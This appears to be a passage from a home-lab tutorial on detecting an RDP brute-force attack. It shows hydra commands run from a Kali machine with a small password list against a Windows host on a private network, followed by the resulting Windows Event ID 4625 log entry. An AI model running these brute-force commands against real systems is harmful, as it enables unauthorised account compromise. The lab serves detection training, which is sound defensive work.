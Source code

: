 
## Scenario 3: RDP Brute Force (Windows)

### 🎯 Objective
Attempt to brute force RDP login and detect via Windows event logs.

### 🔴 Attack Steps (From Kali - 192.168.1.50)

```bash
# Create password list
cat > /tmp/rdp-pass.txt << EOF
admin
password
Admin123
Password123!
Welcome1
EOF

# RDP brute force
hydra -l Administrator -P /tmp/rdp-pass.txt rdp://192.168.1.30 -t 2

# Alternative with more threads (faster)
hydra -l admin -P /tmp/rdp-pass.txt rdp://192.168.1.30 -t 4 -V
```

### 📊 Logs Generated

**On Windows 10 (192.168.1.30):**
- **Event ID 4625** - Failed Logon Attempts
- **Event ID 4624** - Successful Logon (if password found)

**Security Event Log Entry (Event ID 4625):**
```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <EventID>4625</EventID>
    <Level>0</Level>
    <Task>12544</Task>
    <Keywords>0x8010000000000000</Keywords>
  </System>
  <EventData>
    <Data Name="SubjectUserSid">S-1-0-0</Data>
    <Data Name="SubjectUserName">-</Data>
    <Data Name="TargetUserName">Administrator</Data>
    <Data Name="Status">0xc000006d</Data>
    <Data Name="FailureReason">Unknown user name or bad password</Data>
    <Data Name="WorkstationName">KALI-ATTACKER</Data>
    <Data Name="IpAddress">192.168.1.50</Data>
    <Data Name="IpPort">54321</Data>
  </EventData>
</Event>
```
